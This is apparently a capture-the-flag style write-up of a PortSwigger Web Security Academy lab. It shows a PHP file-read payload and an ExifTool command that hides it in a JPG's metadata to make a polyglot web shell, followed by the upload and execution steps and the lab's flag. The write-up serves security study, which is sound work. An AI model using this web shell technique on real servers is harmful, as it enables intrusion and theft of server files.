






# Writeup — Remote Code Execution via Polyglot Web Shell Upload

> Web Exploitation & File Upload (PortSwigger Web Security Academy)

## Overview

A file upload vulnerability lab where the server correctly blocks direct upload of non-image files (like `.php`), but fails to inspect file _content_ thoroughly. By crafting a polyglot PHP/JPG file — a valid image that also carries a PHP payload hidden inside its metadata — it was possible to bypass the extension/content-type filter and achieve remote code execution, ultimately reading a protected file (`/home/carlos/secret`) from the server's filesystem.



***

## Methodology

The initial attempt to upload a raw `.php` file as an avatar was blocked by the server's upload validation. Instead of fighting the filter head-on, the payload was smuggled inside the metadata (`Comment` field) of a legitimate `.jpg` image using **ExifTool**, then the file was renamed with a `.php` extension. Since the file still passed as a valid image at the binary level, the upload succeeded. All requests were routed through **Burp Suite** (Proxy → HTTP History), with the relevant upload request sent to **Repeater** for controlled testing and re-sending until the bypass worked.

***

## Exploitation

### Step 1 — Recon & Login

**Method:** Logging into the application and accessing the account/avatar upload feature **Location:** My Account page **Finding:** The application allows authenticated users to upload a custom avatar image.



***

### Step 2 — Direct PHP Upload Attempt (Blocked)

**Method:** Attempting to upload a raw `exploit.php` file containing:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

**Location:** Avatar upload form **Finding:** The server rejected the file, and attempting to access it directly afterward confirmed it was never stored/executed as PHP.



**Observation:** The server enforces some form of validation beyond just checking the file extension client-side — a naive rename to `.php` alone wasn't enough.

***

### Step 3 — Building the Polyglot File with ExifTool

**Method:** Using ExifTool to embed the PHP payload inside the `Comment` metadata field of a real `.jpg` image, then saving the result with a `.php` extension:

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" input-image.jpg -o polyglot.php
```

**Location:** Local terminal **Finding:** The resulting `polyglot.php` file is structurally a valid JPG (passes image content checks) while carrying an executable PHP payload inside its metadata.



***

### Step 4 — Uploading the Polyglot via Burp Repeater

**Method:** Uploading `polyglot.php` as the avatar through the browser, capturing the request in Burp's **HTTP History**, and sending it to **Repeater** to inspect/replay the upload until it was accepted. **Location:** Avatar upload endpoint — `POST` request **Finding:** The server accepted the file this time, since it passed as a legitimate image.



***

### Step 5 — Triggering Execution & Extracting the Secret

**Method:** Returning to the account page to trigger a `GET /files/avatars/polyglot.php` request, then locating it in Burp's Proxy History and using the message editor's search feature to find the `START` marker within the binary image response. **Location:** `GET /files/avatars/polyglot.php` **Finding:** Between the `START` and `END` markers, Carlos's secret was exposed in plaintext inside the image response body.



***

## Completed Flag

**`1yDwfQ23MjYlmOgSS05RAw8ZeRfJJRCu`**

***

## Tools Used

* Burp Suite — **Proxy / HTTP History** and **Repeater**
* ExifTool — metadata injection (`-Comment` field)
* Browser DevTools / manual navigation

## Concepts

* Extension/content-type filters alone aren't sufficient; content-level validation can still be bypassed via polyglot files
* Image metadata fields (EXIF, Comment, etc.) can carry executable payloads without breaking the file's validity as an image
* Burp Repeater is essential for iteratively testing upload bypasses without repeating manual browser actions
* Always check how uploaded files are _served back_ — if a `.php` file is returned and executed by the server, RCE follows naturally
* Searching raw binary responses for injected markers (`START`/`END`) is a reliable way to extract payload output hidden in non-text responses
